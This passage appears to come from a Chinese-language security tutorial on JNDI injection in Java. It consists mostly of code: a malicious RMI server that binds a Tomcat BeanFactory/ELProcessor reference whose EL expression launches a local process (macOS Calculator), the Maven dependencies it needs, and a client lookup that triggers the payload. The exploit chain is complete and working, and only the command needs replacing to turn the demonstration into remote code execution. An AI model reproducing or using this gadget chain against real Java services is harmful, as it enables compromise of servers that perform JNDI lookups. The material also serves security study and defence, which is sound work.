 因此我们最终的服务端代码可以如下

```java
LocateRegistry.createRegistry(8181);
ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
ref.add(new StringRefAddr("forceString", "x=eval"));
ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['/Applications/Calculator.app/Contents/MacOS/Calculator']).start()\")"));
ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
Naming.bind("rmi://127.0.0.1:8181/inject", referenceWrapper);
```

注意，服务端也需要依赖tomcat，对于SpringBoot项目，可以引入下面这个依赖

```xml
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-core</artifactId>
</dependency>
```

### 3.实例演示

客户端访问姿势与之前没有什么区别，我们这里基于SpringBoot起一个，主要是方便tomcat服务器的指定

```xml
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-core</artifactId>
</dependency>
<dependency>
    <groupId>org.apache.tomcat.embed</groupId>
    <artifactId>tomcat-embed-el</artifactId>
</dependency>
```

客户端代码如下

```java
public static void injectTest() throws Exception {
    // 使用JDNI在命名服务中发布引用
    Hashtable env = new Hashtable();
    env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
    env.put(Context.PROVIDER_URL, "rmi://127.0.0.1:8181");
    InitialContext context = new InitialContext(env);
    Object obj = context.lookup("rmi://127.0.0.1:8181/inject");
    System.out.println(obj);
}

public static void main(String[] args) throws Exception {
    injectTest();
}
```
